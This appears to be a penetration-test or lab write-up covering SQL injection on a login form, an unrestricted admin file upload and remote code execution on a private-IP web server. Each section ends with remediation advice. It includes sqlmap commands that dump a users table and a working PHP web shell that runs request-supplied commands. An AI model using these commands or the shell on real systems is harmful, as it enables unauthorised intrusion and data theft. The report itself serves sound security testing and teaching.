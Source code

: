 
# Vulnerability Report: Authenticated File Upload + SQL Injection in Web Application + RCE

**Severity**: Critical  
**Tools Used**: rustscan, Nikto, SQLMap, Netcat  
**Suspicious Activity Detection & Threat Actor Behavior Simulation**  
**CVE**: Custom Web Application Vulnerability  
**Impact**: Remote Code Execution (RCE) via Web Shell  
**Affected Host**: Target Linux Web Server  
**Access Level Gained**: Remote shell with same privileges as web server process  

---

## 1. Vulnerability: SQL Injection on Login Page

**Risk Description**:  
A SQL Injection (SQLi) vulnerability was discovered in the `password` parameter of the login form. This allows an attacker to bypass authentication and extract sensitive data from the backend database.

**Exploitation Method**:
- Initial discovery through manual testing and confirmed using SQLMap.  
  ![Screenshot 2025-05-30 230336](https://github.com/user-attachments/assets/2b691c47-a02e-47db-8b2b-e884e2648424)

  ```bash
  sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password --risk=3 --level=5 --batch
  ```

  ![Screenshot 2025-05-31 204224](https://github.com/user-attachments/assets/bac3fb25-9db2-4ad0-9045-bcb1d8645600)

  ```bash
  sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password -T users --dump --batch
  ```

  ![Screenshot 2025-05-31 204420](https://github.com/user-attachments/assets/cb14eb27-4781-4aaa-9a0d-59b3ee146c54)  
  ![Screenshot 2025-05-31 204548](https://github.com/user-attachments/assets/2d6c0666-069e-48ae-bc5e-49b5fe7839bf)

**Recommendation**:
- Use parameterized queries (prepared statements) to prevent SQL injection.
- Validate all user inputs strictly.
- Implement a Web Application Firewall (WAF).
- Regularly update and patch all components of the web application stack.

---

## 2. Vulnerability: Unrestricted File Upload in Admin Panel

**Risk Description**:  
The admin interface allows uploading of files without proper validation or filtering of file extensions. This permits an attacker to upload and execute a web shell on the server.

**Exploitation Method**:
- Used valid credentials (gathered from SQLi) to log into the admin dashboard.
- Uploaded a PHP-based web shell by bypassing client-side file validation.
- Accessed the shell via its URL path, enabling arbitrary command execution.

**PHP Shell**:  
![image](https://github.com/user-attachments/assets/ce4403a7-781f-41dc-aa93-61df724f5a5c)  
![Screenshot 2025-05-31 211505](https://github.com/user-attachments/assets/d0255c20-dce6-4148-a152-5595500cc4ac)

**Recommendation**:
- Restrict uploads to specific safe file types (e.g., `.jpg`, `.png`).
- Validate file MIME types and extensions server-side.
- Store uploads in non-executable directories.
- Disable execution permission on uploaded files.
- Sanitize filenames and scan for malware signatures.

---

## 3. Vulnerability: Remote Code Execution via Reverse Shell

**Risk Description**:  
Using the uploaded PHP shell, an attacker can execute system commands. This leads to full remote code execution and shell access over the network.

**Exploitation Method**:
- Launched a reverse shell from the web shell to the attacker's listener.
- Netcat was used to establish a reverse connection back to the attacker.

![image](https://github.com/user-attachments/assets/33e5274a-76dc-49dc-b0c4-cb25c0236174)

**Payload**:
```php
<?php
if (isset($_REQUEST["cmd"])) {
    echo "<pre>";
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

![Screenshot 2025-05-31 211904](https://github.com/user-attachments/assets/fda305c9-4c7e-4620-b1ad-d1d50f675444)

**Impact**:
- Shell access with privileges of the web server user.
- Potential for lateral movement and further exploitation.

**Recommendation**:
- Prevent execution of user-uploaded content.
- Harden the web server configuration.
- Use AppArmor/SELinux to restrict what processes can do.
- Implement intrusion detection to monitor for reverse shell activity.
- Conduct regular audits and monitor logs for abnormal behaviors.

---
